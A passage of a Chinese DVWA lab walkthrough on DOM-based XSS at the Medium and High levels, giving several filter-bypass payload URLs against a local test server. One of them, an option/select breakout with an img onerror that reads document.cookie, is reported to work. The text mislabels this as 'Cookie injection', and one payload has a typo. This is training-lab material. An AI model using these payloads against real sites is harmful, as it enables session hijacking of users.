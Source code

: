 ![image-20230511145802048](D:\Document\My_book\My_Books\钟全龙著\img\image-20230511145802048.png)

尝试使用一些绕过方法来注入

**重写绕过**

```
http://192.168.8.107/dvwa/DVWA-master/vulnerabilities/xss_d/?default=<scscriptript>alert("Hello World")</scscriptript>
```

![image-20230511150007612](D:\Document\My_book\My_Books\钟全龙著\img\image-20230511150007612.png)

结果是没有弹出提示框，而是再选择框内出现代码，很明显重写失败了

**大小写绕过**

```
http://192.168.8.107/dvwa/DVWA-master/vulnerabilities/xss_d/?default=<SRCIPT>alert("Hello World")</script>
```

![image-20230511150222356](D:\Document\My_book\My_Books\钟全龙著\img\image-20230511150222356.png)

失败！

**编码绕过**

```
http://192.168.8.107/dvwa/DVWA-master/vulnerabilities/xss_d/?default=<img src="x" onerror="alert%28%22Hello%20World%22%29" >
```

![image-20230511150401390](D:\Document\My_book\My_Books\钟全龙著\img\image-20230511150401390.png)

很明显这样也不行，最后只有只用终极杀手锏，Cookie攻击

**Cookie绕过**

在HTML中由个特殊的元素，<option>和<select>，<option>用于定义在<select>或<datalist>元素的包含项，其主要功能就是在**弹出窗口**和HTML文档中的**其他项目列表中表示菜单**；所有这里需要借助这两个标签；

```
http://192.168.8.107/dvwa/DVWA-master/vulnerabilities/xss_d/?default=English<option><select></select></option><img src="x" onerror="alert(document.cookie)" >
```

![image-20230511152330718](D:\Document\My_book\My_Books\钟全龙著\img\image-20230511152330718.png)

可以看见通过Cookie进行注入成功实现，返回了当前网页的sessionID，说明当前网页存在Cookie注入的漏洞

---

### XSS(DOM) High

尝试使用Cookie来进行注入

```
http://192.168.8.107/dvwa/DVWA-master/vulnerabilities/xss_d/?default=English<option><select></select></option><img src="x" onerror="alert(document.cookie)" >
```
